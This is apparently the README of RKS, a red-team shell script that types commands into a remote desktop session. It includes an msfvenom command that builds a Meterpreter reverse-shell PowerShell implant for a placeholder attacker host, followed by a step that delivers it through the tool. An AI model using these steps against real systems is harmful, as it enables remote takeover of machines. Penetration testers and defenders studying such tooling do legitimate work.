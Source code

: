 # Manual

## 01 - Help Menu

```
$ ./rks.sh -h
Usage: rks.sh [-c <cmdfile> | -i <input> -o <tofile>] [-w <windowname>] [-h]
Options:
    -c, --cmdfile <cmdfile>     Specify the file containing commands to execute
    -i, --input <input>         Specify the input file to transfer
    -o, --tofile <tofile>       Specify the output file to transfer
    -w, --windowname <name>     Specify the window name for RDP (FreeRDP is set
                                by default if not specified)

    -h, --help                  Display this help message
```

## 02 - Usage

```
$ msfvenom -p windowx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1
```

---
## References

- [RKS (RemoteKeyStrokes)](https://github.com/U53RW4R3/RKS)

- [Sending Keystrokes to Your (Virtual) Machines using X, Vnc , Rdp or Native ways](https://web.archive.org/web/20220712164101/https://www.jedi.be/blog/2010/08/29/sending-keystrokes-to-your-virtual-machines-using-X-vnc-rdp-or-native/)